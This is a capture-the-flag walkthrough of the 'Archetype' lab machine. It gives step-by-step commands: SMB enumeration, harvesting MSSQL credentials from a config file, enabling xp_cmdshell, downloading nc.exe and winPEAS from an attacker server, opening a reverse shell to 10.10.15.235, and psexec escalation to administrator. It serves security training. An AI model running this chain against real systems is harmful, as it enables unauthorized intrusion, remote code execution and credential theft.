

# ARCHETYPE

STARTING POINT - TIER 2

## Enumeration

**Nmap scan**

```bash
nmap -sC -sV 10.129.210.53
```


## Exploitation

**Connect SMB**

```bash
smbclient -N -L \\\\10.129.210.53\\
```


- Connect via backups user

```bash
smbclient -N \\\\10.129.210.53\\backups
```


**Get config file**

```bash
get prod.dtsConfig
```


**Exit SMB Server and read config file**


**Connect to MSSQL by using `mssqlclient.py`**

```bash
/usr/share/doc/python3-impacket/examples/mssqlclient.py ARCHETYPE/sql_svc@10.129.210.53 -windows-auth
```


- Password is in config file.

**Enable xp_cmdshell**


**Prepare some tools for Windows Exploitation**


- nc.exe
- winPEASx64.exe

**Open a Server**

```bash
sudo python3 -m http.server 80
```


**At victim machine, connect to attacker machine then download `nc.exe`**

```bash
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.15.235/nc.exe -outfile nc.exe"
```


```bash
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.15.235/winPEASx64.exe -outfile winpeas.exe"
```


**Create a reverse shell**

```bash
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc.exe -e cmd.exe 10.10.15.235 4444"
```


**`cd` to Desktop then list all files**


**Read `user.txt` file**


**Run `winPEASx64.exe`**

```bash
.\winpeas.exe
```


- Found a file store information about Administrator


- Read contents of the file


**Using `impacket-psexec` to connect server as administrator**

```bash
/usr/bin/impacket-psexec administrator@10.129.210.53
```


**Move to Desktop and read get secret file**


